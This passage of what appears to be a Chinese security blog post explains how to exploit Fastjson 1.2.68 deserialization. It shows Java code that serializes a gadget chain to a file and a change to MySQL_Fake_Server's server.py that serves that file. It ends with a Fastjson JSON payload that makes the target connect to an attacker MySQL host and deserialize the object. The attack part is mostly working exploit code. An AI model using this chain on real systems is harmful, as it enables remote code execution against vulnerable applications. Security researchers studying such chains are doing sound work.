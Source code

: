   
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrjY2CXMIwO0vYH4OATP9Atbibibgt2smVggoVpIBqKruQicZJBUjl1nrJxk5ibpfY82J4hdbuB5DVorg/640?wx_fmt=png&from=appmsg "")  
  
  
既然能正常执行反序列化操作，那么下一步就需要测试命令执行。这里使用到了@Y4tacker大佬给出的利用链  
  
  
https://paper.seebug.org/2067/  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrjY2CXMIwO0vYH4OATP9AtyvU1gAmVfvXxcDCr28hvqVdgr6lmA3D2OibzqSJjf5CjCLRIxXLTjIw/640?wx_fmt=png&from=appmsg "")  
  
## 代码微调  
  
  
直接拿文章中给出的代码进行修改，添加这段代码，将反序列化的内容保存到文件中。自定义执行命令  
  
```
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("fastjson1268.bin"));
oos.writeObject(hashMap);
oos.close();
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrjY2CXMIwO0vYH4OATP9Atxoia1V4MLevsT5zPvsUCeLezUofwuibictR7ADaXblA6g3WicfAiczYKYVA/640?wx_fmt=png&from=appmsg "")  
  
  
还要修改MySQL_Fake_Server  
项目server.py文件，get_yso_content函数的内容，让其从指定文件中读取  
  
```
with open(r'fastjson1268.bin','rb') as f:
    file_content = f.read()
return file_content
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrjY2CXMIwO0vYH4OATP9AtFbwNzJOqItzic7niaCtFAgmSw4iaGVHdSvEPZa1m526ygksPnk6J0R3Qw/640?wx_fmt=png&from=appmsg "")  
  
  
将生成的fastjson1268.bin放到server.py文件同级目录中，运行server.py文件  
  
  
user填入yso_xxx就能触发server.py的get_yso_content函数，此时fastjson测试payload为  
  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "yso_URLDNS_http://YOUR_DNSLOG",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  